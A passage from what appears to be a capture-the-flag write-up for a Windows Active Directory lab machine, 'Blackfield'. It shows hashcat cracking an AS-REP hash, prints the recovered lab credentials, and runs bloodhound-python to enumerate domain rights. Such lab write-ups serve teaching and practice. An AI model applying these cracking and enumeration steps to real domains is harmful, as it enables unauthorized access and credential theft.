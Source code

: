 ```shell
hashcat -m 18200 -a 0 support_hash.txt /usr/share/wordlists/rockyou.txt
```

After waiting patiently for a few seconds, we successfully cracked the hash and got the following credentials:
```shell
support:#00^BlackKnight
```
## BloodHound Enumeration to find out that user support has ForceChangePassword on user audit2020
We tried to get access using impacket-psexec and evil-winrm, and we also checked for password reuse on the other users but got no luck.

It's time to enumerate the domain further and see if the user support has any interesting rights.

We will start running the bloodhound-python collector (We can't run SharpHound.exe anyways since we got no shell or desktop access):
```shell
bloodhound-python -d blackfield.local -u support -p '#00^BlackKnight' -ns 10.129.191.43 -c all --dns-tcp
```
This will create .json files, which we will then upload to BloodHound.

Now we need to start BloodHound:
```shell
# CLI 1 - Let it run
sudo neo4j console
# CLI 2 - Let it run
sudo bloodhound
```
Clear the database and upload the .json files into BloodHound.

On the search box enter SUPPORT@BLACKFIELD.LOCAL:
![Search box](/images/bh_blackfield_1.png)
